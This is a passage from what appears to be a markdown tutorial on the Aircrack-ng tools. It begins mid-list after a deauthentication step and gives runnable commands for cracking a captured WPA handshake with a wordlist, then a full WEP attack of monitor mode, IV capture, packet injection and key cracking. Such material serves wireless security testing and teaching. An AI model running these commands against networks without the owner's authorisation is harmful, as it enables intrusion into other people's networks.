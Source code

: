 * Forces client to disconnect
* WPA handshake is captured when they reconnect

---

### 5. Crack WPA Key

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AA:BB:CC:DD:EE:FF capture-01.cap
```

✅ If password is in the wordlist, Aircrack-ng will find it.

---

## 📌 WEP Cracking Example

1. Start Monitor Mode

```bash
airmon-ng start wlan0
```

2. Capture IVs

```bash
airodump-ng --bssid <BSSID> -c <channel> -w wep_capture wlan0mon
```

3. Inject Packets

```bash
aireplay-ng -3 -b <BSSID> wlan0mon
```

4. Crack WEP Key

```bash
aircrack-ng wep_capture-01.cap
```

✅ WEP can often be cracked in seconds if enough IVs are collected.

---

## 📂 Output Files

* `.cap`: Packet capture (used by aircrack-ng)
* `.csv`: CSV-formatted summary
* `.netxml`: For compatibility with other tools

---

## 🧠 Other Useful Commands

### ✔️ To stop monitor mode:
